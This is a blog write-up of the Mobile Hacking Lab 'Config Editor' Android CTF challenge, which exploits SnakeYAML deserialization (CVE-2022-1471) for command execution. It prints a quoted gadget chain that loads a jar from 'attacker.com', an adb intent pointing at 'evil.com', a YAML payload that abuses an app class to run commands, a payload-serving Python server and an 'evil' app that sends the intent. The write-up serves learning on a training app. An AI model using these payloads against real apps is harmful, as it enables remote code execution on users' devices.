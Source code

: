 ```yaml
---
title:  "Mobile Hacking Lab Config Editor Writeup"
date:   2024-01-22T16:27:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for [Config Editor](https://www.mobilehackinglab.com/course/lab-config-editor-rce) challenge from Mobile Hacking Lab. 

## Static Analysis
When we open the app in emulator, it opens a page with "load" and "save" buttons and a text input area. When we press the load button, it opens the file manager for us to select a file and we can load example.yml file that created by app. Also we can write something to text area and save it with save button. Before saving file, it recommends a file name with yml extension again. Let's open it with jadx to understand the app.

![](/assets/images_mhl_configeditor/manifest.png)

When we examine the manifest file, we see that an intent filter is defined for MainActivity. To properly trigger this activity we need to send intent with http/https or file scheme and VIEW action. Also, the type of data we will send with intent is expected to be yaml.
```bash
# Sample intent
adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.intent.action.VIEW -d "http://evil.com"
```
But we need to know what happened when this activity triggered. To undestand this, lets analyze MainActivity

![](/assets/images_mhl_configeditor/mainactivity.png)
 
Inside the onCreate function, handleIntent method called after setting the view of activity.

### handleIntent Function

![](/assets/images_mhl_configeditor/handleIntent.png)

handleIntent function handle the coming intent and after checking the action and uri, sends the uri to CopyFileFromUri function. After copying file from uri, it loads the yaml file with loadYaml function. During download and save processes getLastPathSegment function leads to file write with directory traversal vulnerability but this is not the case we will look into in this post. I explained that vulnerability on my [previous post](https://sh4d0wlesss.github.io/writeup/Mobile-Hacking-Lab-Document-Viewer-Challenge-Writeup/). This challenge have same vulnerability too. If you dont trust me go and test it :D

### loadYaml Function

![](/assets/images_mhl_configeditor/loadYaml.png)

loadYaml function gets the file from given uri and loads it with yaml.load function. This load function comes from snakeyaml(org.yaml.snakeyaml) package. This is a popular java library to parse yaml files. Some tips were given on the challenge page, and these tips mentioned finding a vulnerability in a 3rd party library. Since there is no native library file in the apk, the vulnerable library may be the snakeyaml library. Also, about a week before I wrote this article, I watched a [video prepared by mdisec](https://www.youtube.com/watch?v=IPrRccHlgLM) on YouTube, and while trying to solve this challenge, I remembered that the snakeyaml library was also mentioned in that video. In the video, a deserialization vulnerability(`CVE-2022-1471`) in the snakeyaml library is mentioned and the exploitation stages are shown in practice.

#### CVE-2022-1471

As far as I understand from the blog posts I read while researching this vulnerability, during the serialization we can specify the object inside the yaml file and snakeyaml will use this class name for creating object from same class during deserialization(also snakeyaml add that classnames when yaml.dump fucntion called for serialization). For example, we can specify the object type as car inside the yaml:
```yaml
car: 
  !!sample.car
  brand: kia
  model: rio
  year: 2004
  type: stationwagon
```
We can write the any class(must be in classpath) we want in the yaml file and the vulnerability is revealed here. Here is the example gadget chain shared as poc for this vuln:
```yaml
#ref: https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471

person: !!javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader [[
        !!java.net.URL [http://attacker.com/malicious-code.jar]
    ]]
]
```
With this chain (If the attacker can control the content of the yaml file) attacker can get remote code execution. I will not explain the details of the attack in this article. If you want to examine the detailed stages of this attack, [I highly recommend this blog post.](https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471) I tried this payload with app but it gives error because ScriptEngineManager class not found. [After some research](https://stackoverflow.com/questions/46320972/engine-eval-returns-null-in-android-studio) i saw that ScriptEngineManager is not available on Android by default. Instead of that everyone recommend `rhino` but im not a Android developer and i didnt understand anything that i read about that topic :D

But we need to get a remote code execution somehow. As you can see in the first picture I added at the beginning of the article, there is another class called LegacyCommandUtil in the application.

```java
public final class LegacyCommandUtil {
    public LegacyCommandUtil(String command) {
        Intrinsics.checkNotNullParameter(command, "command");
        Runtime.getRuntime().exec(command);
    }
}
```
Inside the constructor of this class, a "command" executed with runtime exec function. We can use this class to exploit this vulnerability because we can access this class. Here is the sample yaml file:
```yaml
cartcurt: !!com.mobilehackinglab.configeditor.LegacyCommandUtil ["touch /data/data/com.mobilehackinglab.configeditor/poc.txt"]
```
If this payload works, poc.txt file will be created inside the application directory. For serving this file i used my hacky server code from previous post :
```py
#proudly stolen from : https://stackoverflow.com/questions/46105356/serve-a-file-from-pythons-http-server-correct-response-with-a-file
from http.server import BaseHTTPRequestHandler, HTTPServer
class MyHackyServer(BaseHTTPRequestHandler):

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        exploit_file = open('hacky.yml', 'rb')
        self.wfile.write(exploit_file.read())
        self.end_headers()


myServer = HTTPServer(('localhost', 1234), MyHackyServer)
myServer.serve_forever()
```
and the adb command for sending proper intent:
```bash
adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.action.intent.VIEW -d "http://10.0.3.2:1234"
# 10.0.3.2 is the address of localhost of host machine for genymotion, if you are using Android Studio emulators, this ip will be 10.0.2.2 for you.
```
Here is the result(video):

[![](https://img.youtube.com/vi/vhk_WS9Da_0/0.jpg)](https://youtu.be/vhk_WS9Da_0)

It works🥳 If you want to make same thing with evil application, here is my sample code:
```java
package com.example.exploitconfigeditor;

import androidx.appcompat.app.AppCompatActivity;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Uri uri = Uri.parse("http://10.0.3.2:1234");
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setClassName("com.mobilehackinglab.configeditor","com.mobilehackinglab.configeditor.MainActivity");
        intent.setData(uri);
        startActivity(intent);
    }
}
```
And poc video:

[![](https://img.youtube.com/vi/YGbHG2m4clM/0.jpg)](https://youtu.be/YGbHG2m4clM)

We can run code remotely with small yaml file :)

Sad notes: 😔
- I have tried lots of payloads to get reverse shell but i failed. [As mentioned here](https://stackoverflow.com/questions/25199307/unable-using-runtime-exec-to-execute-shell-command-echo-in-android-java-code), exec function does not execute [shell builtins](https://www.networkworld.com/article/967046/how-to-identify-shell-builtins-aliases-and-executable-files-on-linux-systems.html), it executes executables and for getting reverse shell i need to pass string array to constructor. Also i tried payloads with ${IFS} but they didn't work. If you can create working reverse shell payload please dm me on twitter or linkedin👀
- In this example we have a class that executes commands but in real world scenario i dont know how i can get remote code execution on android app with this vulnerability. If you can get rce on this challenge with another method, please dm me 👀

Thanks for reading! See you in next writeups :)
